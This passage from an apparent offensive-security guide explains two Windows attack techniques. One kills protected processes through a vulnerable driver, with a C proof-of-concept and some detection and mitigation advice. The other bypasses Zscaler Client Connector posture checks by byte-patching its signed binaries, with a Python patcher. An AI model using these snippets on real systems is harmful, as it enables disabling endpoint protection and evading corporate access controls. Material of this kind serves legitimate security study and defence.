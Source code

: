    | `0x990000D0` | Delete an arbitrary file on disk |
   | `0x990001D0` | Unload the driver and remove the service |

   Minimal C proof-of-concept:
   ```c
   #include <windows.h>
   
   int main(int argc, char **argv){
       DWORD pid = strtoul(argv[1], NULL, 10);
       HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
       DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
       CloseHandle(hDrv);
       return 0;
   }
   ```
4. **Why it works**:  BYOVD skips user-mode protections entirely; code that executes in the kernel can open *protected* processes, terminate them, or tamper with kernel objects irrespective of PPL/PP, ELAM or other hardening features.

Detection / Mitigation
•  Enable Microsoft’s vulnerable-driver block list (`HVCI`, `Smart App Control`) so Windows refuses to load `AToolsKrnl64.sys`.
•  Monitor creations of new *kernel* services and alert when a driver is loaded from a world-writable directory or not present on the allow-list.
•  Watch for user-mode handles to custom device objects followed by suspicious `DeviceIoControl` calls.

### Bypassing Zscaler Client Connector Posture Checks via On-Disk Binary Patching

Zscaler’s **Client Connector** applies device-posture rules locally and relies on Windows RPC to communicate the results to other components. Two weak design choices make a full bypass possible:

1. Posture evaluation happens **entirely client-side** (a boolean is sent to the server).
2. Internal RPC endpoints only validate that the connecting executable is **signed by Zscaler** (via `WinVerifyTrust`).

By **patching four signed binaries on disk** both mechanisms can be neutralised:

| Binary | Original logic patched | Result |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | Always returns `1` so every check is compliant |
| `ZSAService.exe` | Indirect call to `WinVerifyTrust` | NOP-ed ⇒ any (even unsigned) process can bind to the RPC pipes |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | Replaced by `mov eax,1 ; ret` |
| `ZSATunnel.exe` | Integrity checks on the tunnel | Short-circuited |

Minimal patcher excerpt:

```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
    data = f.read()
    off = data.find(pattern)
    if off == -1:
        print("pattern not found")
    else:
        f.seek(off)
        f.write(replacement)
```
